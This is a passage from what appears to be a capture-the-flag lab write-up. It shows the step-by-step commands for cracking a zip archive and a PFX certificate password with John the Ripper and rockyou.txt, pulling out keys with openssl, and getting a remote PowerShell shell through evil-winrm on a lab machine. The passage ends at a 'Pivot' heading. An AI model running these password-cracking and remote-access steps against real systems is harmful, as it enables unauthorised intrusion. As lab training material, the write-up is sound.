 ## User

Let's crack the password with [JohnTheRipper](https://github.com/openwall/john). First, we'll get the password hash from the zip file. Run this command

```bash
zip2john winrm_backup.zip > zip.hash
```

This will generate a file called `zip.hash` that contains the password hash for the zip file in `PKZIP` format. Now we can crack the hash using the ever popular `rockyou.txt` password list.

```bash
john zip.hash --wordlist=<PATH TO ROCKYOU.TXT> --format=PKZIP
```

This very quickly shows us that the password for this zip file is `supremelegacy`.

Now we can extract the `legacyy_dev_auth.pfx` file. This is also password-protected so let's crack this one too.

```bash
pfx2john legacyy_dev_auth.pfx > pfx.hash
john pfx.hash --wordlist=<PATH TO ROCKYOU.TXT>
```

And after a bit, we get back a password of `thuglegacy`.

Now, we can divide this cert up into both a public and private key.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key # Use thuglegacy as the import password. Set the PEM pass phrase to whatever you want
openssl rsa -in priv.key -out priv-decr.key # Use the PEM pass phrase as the import password here
openssl pkcs12 -in legacyy_dev_auth.pfx -out public.pem -clcerts -nokeys # Use thuglegacy as the import password
```

This gives us a certificate (a.k.a. a public key) and a decrypted private key. Running

```bash
cat public.pem
```

shows us that the username associated with this certificate is `Legacyy` (from the subject field).

Now we should be able to get access to the machine using WinRM.


We'll use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to establish our shell. Since we're going to be using key and the cert for authentication, we should enable SSL.
```bash
evil-winrm -u Legacyy --ssl -c cpublic.pem -k priv-decr.key -i 10.10.11.152
```

This will put us directly into a PowerShell session as the `Legacyy` user. We can get `user.txt` if we navigate to this user's desktop.

## Pivot
